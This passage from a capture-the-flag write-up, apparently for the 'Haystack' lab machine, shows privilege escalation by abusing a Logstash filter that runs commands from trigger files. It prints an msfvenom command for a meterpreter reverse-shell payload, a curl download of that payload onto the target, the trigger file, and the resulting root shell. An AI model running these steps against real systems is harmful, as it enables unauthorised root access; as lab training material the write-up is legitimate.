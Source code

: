 Logstash has filters configured to execute commands put in `/opt/kibana/logstash_*` where the message contains `Ejecutar comando : ` followed by a command.

I created a meterpreter binary payload:

```
ragingunicorn:~/htb/haystack# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.12 LPORT=5555
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 129 bytes
Final size of elf file: 249 bytes
Saved as: met
root@ragingunicorn:~/htb/haystack# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Then transfered it to the box:

```
bash-4.2$ curl -o /tmp/met http://10.10.14.12/met && chmod 777 /tmp/met
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249  100   249    0     0   6119      0 --:--:-- --:--:-- --:--:--  6225
```

Then I created the trigger file:

```
bash-4.2$ echo "/tmp/met" > /opt/kibana/logstash_1 
```

I waited a few minutes then got a callback as root:

```
meterpreter > shell
Process 12972 created.
Channel 1 created.
cat /root/root.txt
3f5f72...
```